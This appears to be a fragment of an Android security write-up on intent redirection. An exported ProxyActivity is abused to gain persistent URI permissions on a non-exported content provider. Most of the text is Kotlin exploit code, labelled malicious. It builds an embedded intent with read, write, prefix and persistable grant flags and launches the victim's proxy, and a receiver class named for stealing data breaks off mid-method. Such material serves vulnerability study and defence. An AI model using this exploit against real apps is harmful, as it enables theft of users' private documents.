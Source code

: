 ```

```xml

<activity 
    android:name=".ProxyActivity"
    android:exported="true" />


<provider
    android:name=".SecureContentProvider"
    android:authorities="com.documentmanager.secure"
    android:exported="false"
    android:grantUriPermissions="true" />
```

**Malicious Exploit Code:**
```kotlin
// MALICIOUS: Exploit to gain URI permissions via proxy activity
class GrantUriExploit {
    fun exploitProxyActivity(context: Context) {
        // Step 1: Create embedded intent targeting attacker's receiver
        val embeddedIntent = Intent().apply {
            // Target attacker's activity to receive the URI permissions
            setClassName(context.packageName, "com.attacker.UriReceiver")
            
            // Set URI to victim's non-exported content provider
            data = Uri.parse("content://com.documentmanager.secure/")
            
            // ATTACK: Grant persistent URI permissions to attacker
            flags = Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION or
                   Intent.FLAG_GRANT_PREFIX_URI_PERMISSION or
                   Intent.FLAG_GRANT_READ_URI_PERMISSION or
                   Intent.FLAG_GRANT_WRITE_URI_PERMISSION
        }
        
        // Step 2: Create proxy intent to victim's proxy activity
        val proxyIntent = Intent().apply {
            setClassName("com.documentmanager", "com.documentmanager.ProxyActivity")
            putExtra("extra_intent", embeddedIntent)
        }
        
        // Step 3: Launch attack - victim app grants URI permissions to attacker
        context.startActivity(proxyIntent)
    }
}

// MALICIOUS: Receiver that gets URI permissions and steals data
class UriReceiver : Activity() {
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        
        // Receive URI permissions granted by victim app
        val grantedUri = intent.data
        Log.d("URI_GRANTED", "Received URI permissions: $grantedUri")
        
        if (grantedUri != null) {
            stealSensitiveData(grantedUri)
        }
        finish()
    }
    
    private fun stealSensitiveData(baseUri: Uri) {
        try {
            // Access documents using granted prefix permissions
```